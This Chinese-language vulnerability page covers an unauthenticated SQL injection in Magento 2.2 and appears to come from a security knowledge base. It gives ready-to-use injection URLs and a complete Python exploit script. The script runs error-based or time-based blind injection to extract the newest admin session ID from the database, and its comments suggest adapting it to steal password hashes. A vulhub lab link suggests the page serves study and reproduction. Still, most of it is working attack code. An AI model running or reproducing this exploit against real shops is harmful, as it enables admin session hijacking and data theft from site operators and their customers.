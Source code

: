 Magento 2.2 SQL注入漏洞
=======================

一、漏洞简介
------------

二、漏洞影响
------------

Magento 2.2

三、复现过程
------------

    http://www.0-sec.org:8080/catalog/product_frontend_action/synchronize?type_id=recently_products&ids[0][added_at]=&ids[0][product_id][from]=%3f&ids[0][product_id][to]=)))+OR+(SELECT+1+UNION+SELECT+2+FROM+DUAL+WHERE+1%3d0)+--+-
    http://www.0-sec.org:8080/catalog/product_frontend_action/synchronize?type_id=recently_products&ids[0][added_at]=&ids[0][product_id][from]=%3f&ids[0][product_id][to]=)))+OR+(SELECT+1+UNION+SELECT+2+FROM+DUAL+WHERE+1%3d1)+--+-

可见，在执行`))) OR (SELECT 1 UNION SELECT 2 FROM DUAL WHERE 1=1) -- -`和`))) OR (SELECT 1 UNION SELECT 2 FROM DUAL WHERE 1=0) -- -`时，返回的HTTP状态码不同：

![2.png](./resource/Magento2.2SQL注入漏洞/media/rId24.png)![3.png](./resource/Magento2.2SQL注入漏洞/media/rId25.png)

通过改变OR的条件，即可实现SQL BOOL型盲注。

利用POC，可以读取管理员的session：

![4.png](./resource/Magento2.2SQL注入漏洞/media/rId26.png)

    #!/usr/bin/env python3
    # Magento 2.2.0 <= 2.3.0 Unauthenticated SQLi
    # Charles Fol
    # 2019-03-22
    #
    # SOURCE & SINK
    # The sink (from-to SQL condition) has been present from Magento 1.x onwards.
    # The source (/catalog/product_frontend_action/synchronize) from 2.2.0.
    # If your target runs Magento < 2.2.0, you need to find another source.
    #
    # SQL INJECTION
    # The exploit can easily be modified to obtain other stuff from the DB, for
    # instance admin/user password hashes.
    #

    import requests
    import string
    import binascii
    import re
    import random
    import time
    import sys
    from urllib3.exceptions import InsecureRequestWarning
    requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)

    def run(url):
        sqli = SQLInjection(url)

        try:
            sqli.find_test_method()
            sid = sqli.get_most_recent_session()
        except ExploitError as e:
            print('Error: %s' % e)


    def random_string(n=8):
        return ''.join(random.choice(string.ascii_letters) for _ in range(n))


    class ExploitError(Exception):
        pass


    class Browser:
        """Basic browser functionality along w/ URLs and payloads.
        """
        PROXY = None

        def __init__(self, URL):
            self.URL = URL
            self.s = requests.Session()
            self.s.verify = False
            if self.PROXY:
                self.s.proxies = {
                    'http': self.PROXY,
                    'https': self.PROXY,
                }


    class SQLInjection(Browser):
        """SQL injection stuff.
        """

        def encode(self, string):
            return '0x' + binascii.b2a_hex(string.encode()).decode()

        def find_test_method(self):
            """Tries to inject using an error-based technique, or falls back to timebased.
            """
            for test_method in (self.test_error, self.test_timebased):
                if test_method('123=123') and not test_method('123=124'):
                    self.test = test_method
                    break
            else:
                raise ExploitError('Test SQL injections failed, not vulnerable ?')

        def test_timebased(self, condition):
            """Runs a test. A valid condition results in a sleep of 1 second.
            """
            payload = '))) OR (SELECT*FROM (SELECT SLEEP((%s)))a)=1 -- -' % condition
            r = self.s.get(
                self.URL + '/catalog/product_frontend_action/synchronize',
                params={
                    'type_id': 'recently_products',
                    'ids[0][added_at]': '',
                    'ids[0][product_id][from]': '?',
                    'ids[0][product_id][to]': payload
                }
            )
            return r.elapsed.total_seconds() > 1

        def test_error(self, condition):
            """Runs a test. An invalid condition results in an SQL error.
            """
            payload = '))) OR (SELECT 1 UNION SELECT 2 FROM DUAL WHERE %s) -- -' % condition
            r = self.s.get(
                self.URL + '/catalog/product_frontend_action/synchronize',
                params={
                    'type_id': 'recently_products',
                    'ids[0][added_at]': '',
                    'ids[0][product_id][from]': '?',
                    'ids[0][product_id][to]': payload
                }
            )
            if r.status_code not in (200, 400):
                raise ExploitError(
                    'SQL injection does not yield a correct HTTP response'
                )
            return r.status_code == 400

        def word(self, name, sql, size=None, charset=None):
            """Dichotomically obtains a value.
            """
            pattern = 'LOCATE(SUBSTR((%s),%d,1),BINARY %s)=0'
            full = ''

            check = False
            
            if size is None:
                # Yeah whatever
                size_size = self.word(
                    name,
                    'LENGTH(LENGTH(%s))' % sql,
                    size=1,
                    charset=string.digits
                )
                size = self.word(
                    name,
                    'LENGTH(%s)' % sql,
                    size=int(size_size),
                    charset=string.digits
                )
                size = int(size)

            print("%s: %s" % (name, full), end='\r')

            for p in range(size):
                c = charset
                
                while len(c) > 1:
                    middle = len(c) // 2
                    h0, h1 = c[:middle], c[middle:]
                    condition = pattern % (sql, p+1, self.encode(h0))
                    c = h1 if self.test(condition) else h0

                full += c
                print("%s: %s" % (name, full), end='\r')

            print(' ' * len("%s: %s" % (name, full)), end='\r')

            return full

        def get_most_recent_session(self):
            """Grabs the last created session. We don't need special privileges aside from creating a product so any session
            should do. Otherwise, the process can be improved by grabbing each session one by one and trying to reach the
            backend.
            """
            # This is the default admin session timeout
            session_timeout = 900
            query = (
                'SELECT %%s FROM admin_user_session '
                'WHERE TIMESTAMPDIFF(SECOND, updated_at, NOW()) BETWEEN 0 AND %d '
                'ORDER BY created_at DESC, updated_at DESC LIMIT 1'
            ) % session_timeout

            # Check if a session is available

            available = not self.test('(%s)=0' % (query % 'COUNT(*)'))
            
            if not available:
                raise ExploitError('No session is available')
            print('An admin session is available !')

            # Fetch it

            sid = self.word(
                'Session ID',
                query % 'session_id',
                charset=string.ascii_lowercase + string.digits,
                size=26
            )
            print('Session ID: %s' % sid)
            return sid

    run(sys.argv[1])

参考链接
--------

> https://vulhub.org/\#/environments/magento/2.2-sqli/
